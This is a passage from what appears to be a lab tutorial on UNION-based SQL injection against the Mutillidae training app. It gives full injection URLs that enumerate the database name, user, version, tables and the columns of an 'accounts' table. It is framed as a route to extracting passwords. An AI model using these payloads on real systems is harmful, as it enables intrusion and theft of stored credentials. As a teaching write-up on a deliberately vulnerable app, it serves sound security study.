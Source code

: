 ![z19](https://github.com/Rajeshanbu/sqlinjection/assets/118924713/7a1ae4f4-06e8-4ac8-947f-ce738fcb8f6d)



As given in the screenshot below columns 2,3,4 are usable in which we can substitute any sql commands to extract necessary information. 

![z20](https://github.com/Rajeshanbu/sqlinjection/assets/118924713/92588561-7991-4eef-990a-e7cc878fad7d)




Now we will substitute some few commands like database(), user(), version() to obtain the information regarding the database name, username and version of the database.

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%201,database(),user(),version(),5%23&password=&user-info-php-submit-button=View+Account+Details 

![z21](https://github.com/Rajeshanbu/sqlinjection/assets/118924713/22d8094e-7457-4b40-a7bf-27ced91c8257)



The url when executed, we obtain the necessary information about the database name owasp10, username as root@localhost and version as 5.0.51a-3ubuntu5. In MySQL, the table “information_schema.tables” contains all the metadata identified with table items. Below is listed the most useful information on this table.

Replace the query in the url with the following one: union select 1,table_name,null,null,5 from information_schema.tables where table_schema = ‘owasp10’

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%201,table_name,null,null,5%20from%20information_schema.tables%20where%20table_schema=%27owasp10%27%23&password=&user-info-php-submit-button=View+Account+Details 

![z22](https://github.com/Rajeshanbu/sqlinjection/assets/118924713/29af83c3-e90c-470e-b786-03f040dbba6a)




The url once executed will retrieve table names from the “owasp 10” database.

## Extracting sensitive data such as passwords
When the attacker knows table names, he needs to discover what the column names are to extract data.

In MySQL, the table “information_schema.columns” gives data about columns in tables. One of the most useful columns to extract is called “column_name.”

Ex: (union select 1,colunm_name,null,null,5 from information_schema.columns where table_name = ‘accounts’).

Here we are trying to extract column names from the “accounts” table.
![z23](https://github.com/Rajeshanbu/sqlinjection/assets/118924713/cf902a05-f11f-49b5-afc3-b950a3e4dfe2)




The column names of the accounts is displayed below for the following url:

http://192.168.43.145/mutillidae/index.php?page=user-info.php&username=ganesh%27union%20select%201,column_name,null,null,5%20from%20information_schema.columns%20where%20table_name=%27accounts%27%23&password=&user-info-php-submit-button=View+Account+Details 

